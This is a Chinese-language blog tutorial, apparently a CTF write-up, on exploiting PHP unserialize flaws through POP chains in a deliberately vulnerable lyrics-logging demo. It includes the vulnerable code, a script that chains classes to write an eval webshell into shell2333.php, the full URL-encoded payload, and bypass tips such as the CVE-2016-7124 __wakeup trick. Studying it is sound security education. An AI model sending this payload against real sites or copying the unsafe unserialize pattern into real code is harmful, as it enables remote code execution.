


挖掘思路
- 能控制反序列化的点
- 反序列化类有魔术方法
- 魔术方法里有敏感操作（常规思路）
- 魔术方法里无敏感操作，但是通过属性（对象）调用了一些函数，恰巧在其他的类中有同名的函数（pop链）
demo
来自的柠檬师傅博客，建议小伙伴们拿到自己先做一下，构造pop的方法
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
25
26
27
28
29
30
31
32
33
34
35
36
37
38
39
40
41
42
43
44
45
46
47
48
49
50
51
52
53
54
55
56
57
58
59
60
61
62
63
64
65
66
67
68
69
70
71
72
73
74
75
76
77
78
79
80
81
82
83
84
85
86
87
88
89
90
91
92
93
94
95
96
97
98
99
100
101
102
103
104
105
106
107
108
109
110
111
112
113
114
115
116
117
118
119
120
121
122
123
124
125
126
127
128
129
130
131
132
133
134
135
136
137
138
139
140
141
142
143
144
145
146
147
148
149
150
| <?php
class OutputFilter {
protected $matchPattern;
protected $replacement;
function __construct($pattern, $repl) {
$this->matchPattern = $pattern;
$this->replacement = $repl;
}
function filter($data) {
return preg_replace($this->matchPattern, $this->replacement, $data);
}
};
class LogFileFormat {
protected $filters;
protected $endl;
function __construct($filters, $endl) {
$this->filters = $filters;
$this->endl = $endl;
}
function format($txt) {
foreach ($this->filters as $filter) {
$txt = $filter->filter($txt);
}
$txt = str_replace('\n', $this->endl, $txt);
return $txt;
}
};
class LogWriter_File {
protected $filename;
protected $format;
function __construct($filename, $format) {
$this->filename = str_replace("..", "__", str_replace("/", "_", $filename));
$this->format = $format;
}
function writeLog($txt) {
$txt = $this->format->format($txt);
file_put_contents("E:\\WWW\\test\\ctf" . $this->filename, $txt, FILE_APPEND);
}
};
class Logger {
protected $logwriter;
function __construct($writer) {
$this->logwriter = $writer;
}
function log($txt) {
$this->logwriter->writeLog($txt);
}
};
class Song {
protected $logger;
protected $name;
protected $group;
protected $url;
function __construct($name, $group, $url) {
$this->name = $name;
$this->group = $group;
$this->url = $url;
$fltr = new OutputFilter("/\[i\](.*)\[\/i\]/i", "<i>\\1</i>");
$this->logger = new Logger(new LogWriter_File("song_views", new LogFileFormat(array($fltr), "\n")));
}
function __toString() {
return "<a href='" . $this->url . "'><i>" . $this->name . "</i></a> by " . $this->group;
}
function log() {
$this->logger->log("Song " . $this->name . " by [i]" . $this->group . "[/i] viewed.\n");
}
function get_name() {
return $this->name;
}
}
class Lyrics {
protected $lyrics;
protected $song;
function __construct($lyrics, $song) {
$this->song = $song;
$this->lyrics = $lyrics;
}
function __toString() {
return "<p>" . $this->song->__toString() . "</p><p>" . str_replace("\n", "<br />", $this->lyrics) . "</p>\n";
}
function __destruct() {
$this->song->log();
}
function shortForm() {
return "<p><a href='song.php?name=" . urlencode($this->song->get_name()) . "'>" . $this->song->get_name() . "</a></p>";
}
function name_is($name) {
return $this->song->get_name() === $name;
}
};
class User {
static function addLyrics($lyrics) {
$oldlyrics = array();
if (isset($_COOKIE['lyrics'])) {
$oldlyrics = unserialize(base64_decode($_COOKIE['lyrics']));
}
foreach ($lyrics as $lyric) $oldlyrics []= $lyric;
setcookie('lyrics', base64_encode(serialize($oldlyrics)));
}
static function getLyrics() {
if (isset($_COOKIE['lyrics'])) {
return unserialize(base64_decode($_COOKIE['lyrics']));
}
else {
setcookie('lyrics', base64_encode(serialize(array(1, 2))));
return array(1, 2);
}
}
};
class Porter {
static function exportData($lyrics) {
return base64_encode(serialize($lyrics));
}
static function importData($lyrics) {
return serialize(base64_decode($lyrics));
}
};
class Conn {
protected $conn;
function __construct($dbuser, $dbpass, $db) {
$this->conn = mysqli_connect("localhost", $dbuser, $dbpass, $db);
}
function getLyrics($lyrics) {
$r = array();
foreach ($lyrics as $lyric) {
$s = intval($lyric);
$result = $this->conn->query("SELECT data FROM lyrics WHERE id=$s");
while (($row = $result->fetch_row()) != NULL) {
$r []= unserialize(base64_decode($row[0]));
}
}
return $r;
}
function addLyrics($lyrics) {
$ids = array();
foreach ($lyrics as $lyric) {
$this->conn->query("INSERT INTO lyrics (data) VALUES (\"" . base64_encode(serialize($lyric)) . "\")");
$res = $this->conn->query("SELECT MAX(id) FROM lyrics");
$id= $res->fetch_row(); $ids[]= intval($id[0]);
}
echo var_dump($ids);
return $ids;
}
function __destruct() {
$this->conn->close();
$this->conn = NULL;
}
};
unserialize($_GET['cmd']);
|
操作过程
1、先找unserialize函数
在class user中有
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
| class User {
static function addLyrics($lyrics) {
$oldlyrics = array();
if (isset($_COOKIE['lyrics'])) {
$oldlyrics = unserialize(base64_decode($_COOKIE['lyrics']));
}
foreach ($lyrics as $lyric) $oldlyrics []= $lyric;
setcookie('lyrics', base64_encode(serialize($oldlyrics)));
}
static function getLyrics() {
if (isset($_COOKIE['lyrics'])) {
return unserialize(base64_decode($_COOKIE['lyrics']));
}
else {
setcookie('lyrics', base64_encode(serialize(array(1, 2))));
return array(1, 2);
}
}
};
|
我们看到$oldlyrics = unserialize(base64_decode($_COOKIE['lyrics']));里面cookie可控
那么问题来了，一个可控的unserialize点意味着什么？
意味着你能控制{当前的定义的类或者自动加载能找到的类}的属性（这个对象属性当然可以是一个对象）
接着就可以寻找可以搞事的魔术方法，很快就会发现class Lyrics中有两个魔术方法
1
2
3
4
5
6
| function __toString() {
return "<p>" . $this->song->__toString() . "</p><p>" . str_replace("\n", "<br />", $this->lyrics) . "</p>\n";
}
function __destruct() {
$this->song->log();
}
|
我们发现两个魔术方法都没有什么敏感的操作，那么这个时候我们可以考虑构造POP链
通读代码可以发现程序员的本意是利用class song的log的方法，但是这个时候我们发现
class Logger也有log方法
1
2
3
4
5
6
7
8
9
| class Logger {
protected $logwriter;
function __construct($writer) {
$this->logwriter = $writer;
}
function log($txt) {
$this->logwriter->writeLog($txt);
}
};
|
更加惊奇的是我们发现一个可以写文件的类这个类中方法writeLog
1
2
3
4
5
6
7
8
9
10
11
12
13
| class LogWriter_File {
protected $filename;
protected $format;
function __construct($filename, $format) {
$this->filename = str_replace("..", "__", str_replace("/", "_", $filename));
$this->format = $format;
}
function writeLog($txt) {
$txt = $this->format->format($txt);
file_put_contents("E:\\WWW\\test\\ctf" . $this->filename, $txt, FILE_APPEND);
}
};
|
至此一条完整的POP链思路貌似出现在眼前
我们新建一个Lyrics对象将它的song属性填充成Logger对象,再把logger对象的logwriter的属性填充成LogWriter_File对象，最后传送给cookie,在Lyrics对象被销毁的时候就可以触发__destruct()
1
2
3
4
5
6
7
| <?php
$arr = array(new OutputFilter("//","<?php eval(\$_POST['c']);?>"));
$obj1 = new LogFileFormat($arr,'\n');
$obj2 = new LogWriter_File("shell2333.php",$obj1);
$obj3 = new Logger($obj2);
$obj = new Lyrics("2333",$obj3);
file_put_contents("serialize.txt", urlencode(serialize($obj)));
|
serialize.txt可以找到这一坨
O%3A6%3A%22Lyrics%22%3A2%3A%7Bs%3A9%3A%22%00%2A%00lyrics%22%3Bs%3A4%3A%222333%22%3Bs%3A7%3A%22%00%2A%00song%22%3BO%3A6%3A%22Logger%22%3A1%3A%7Bs%3A12%3A%22%00%2A%00logwriter%22%3BO%3A14%3A%22LogWriter_File%22%3A2%3A%7Bs%3A11%3A%22%00%2A%00filename%22%3Bs%3A13%3A%22shell2333.php%22%3Bs%3A9%3A%22%00%2A%00format%22%3BO%3A13%3A%22LogFileFormat%22%3A2%3A%7Bs%3A10%3A%22%00%2A%00filters%22%3Ba%3A1%3A%7Bi%3A0%3BO%3A12%3A%22OutputFilter%22%3A2%3A%7Bs%3A15%3A%22%00%2A%00matchPattern%22%3Bs%3A2%3A%22%2F%2F%22%3Bs%3A14%3A%22%00%2A%00replacement%22%3Bs%3A26%3A%22%3C%3Fphp+eval%28%24_POST%5B%27c%27%5D%29%3B%3F%3E%22%3B%7D%7Ds%3A7%3A%22%00%2A%00endl%22%3Bs%3A2%3A%22%5Cn%22%3B%7D%7D%7D%7D
GET一次，即可拿到shell
最后
记录一下反序列化注意点具体见Godot师傅
1、当成员属性数目大于实际数目时可绕过wakeup方法(CVE-2016-7124)
2、CTF中成员属性数目前面多一个+可以绕过正则
3、protect属性和private会产生一些浏览器看不见的字符
4、会很有用的函数 get_included_files() , get_declared_classes()

5、如果通过上面的函数依然没有找到合适的类，可以尝试利用spl_autoload_register
6、session序列化反序列化机制不同造成漏洞
最最后
无意间在看php文档的时候发现一个5.6.x后废弃的特性，叫做 ，功能是在上下文语境中可以调用用类::的模式调用非静态方法(?)，一个demo如下

最最最后
如有问题请指教
国庆快乐！